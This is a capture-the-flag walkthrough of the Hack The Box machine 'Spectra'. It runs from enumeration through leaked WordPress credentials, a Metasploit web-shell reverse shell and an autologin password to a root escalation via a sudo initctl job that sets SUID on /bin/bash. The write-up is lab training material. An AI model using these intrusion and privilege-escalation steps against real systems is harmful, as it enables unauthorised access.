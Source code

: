 ### Enumeration

After running nmap scan for this machine, we found that it has 2 opening ports `22,80`
Add `spectra.htb` domain name to file `/etc/hosts`
Vist `spectra.htb` domain name and walk around the website, find that there is one user is posting on the website with username `adminstrator`

Running `gobuster` for directory enumeration:
```
gobuster dir -u http://spectra.htb
```

Gobuster found 2 interesting directories: `/main` and `/testing`
Go to `http://spectra.htb/testing` , see that we are reading the page source code. Found file `wp-config.php.save` with this information

```
define( 'DB_NAME', 'dev' );

/** MySQL database username */
define( 'DB_USER', 'devtest' );

/** MySQL database password */
define( 'DB_PASSWORD', 'devteam01' );

/** MySQL hostname */
define( 'DB_HOST', 'localhost' );
```

Try couples of creds on login page

```
dev:devteam01
administrator: devtest01
```
=> We are able to login to wp-admin with creds `administrator: devtest01`

### Exploitation

After login to wp-admin, we use metasploit with module `wp_admin_web_shell` to upload a reverse shell payload wrapped in a wordpress plugin to gain access to the machine

```
msfconsole
msf6 > use wp_admin_web_shell
***SET OPTIONS***
msf6 > exploit
```
We got a reverse shell back to our machine after running msf exploit, time to look around for interesting files and user


```
nginx@spectra.htb $ cat /etc/passwd

katie:x:20156:20157::/home/katie:/bin/bash
chronos:x:1000:1000:system_user:/home/chronos/user:/bin/bash
chronos-access:!:1001:1001:non-chronos user with access to chronos data:/dev/null:/bin/false
```

Found another database config in `/mnt` directory:

```
/** The name of the database for WordPress */
define( 'DB_NAME', 'dev' );

/** MySQL database username */
define( 'DB_USER', 'dev' );

/** MySQL database password */
define( 'DB_PASSWORD', 'development01' );
```

But `mysql` login creds is not working on the machine, so we have to try to look for something else
Head back to nginx's user root directory, type `find .` 
=> Found an interesting file `autorun` and `/etc/autologin`

Found in: `/etc/autologin` a password, potentialy for 2 users we knew from above
```
password: katie:SummerHereWeCome!!
```

`ssh katie@10.10.10.229`
We gain access to the machine with `katie` user, we can capture the flag `user.txt` there

### Post Exploitation
We cannot run some Linux local enumeration tools like `LinEnum.sh` or `linpeas.sh` so we have to manually enum.

`sudo -l` show us that we can run `/etc/initctl` as root

=> We can exploit this for privilege escalation

Modify `/etc/test.conf` file to enable SUID for /bin/bash

```
script:
  chmod +s /bin/bash
```
And then start `test.conf` 
```
sudo /etc/initctl start test
```

Check our `/bin/bash` permission

```
/bin/bash -p
bash $ whoami
root
```

=> We got root user, we can capture the root flag at `/root` folder
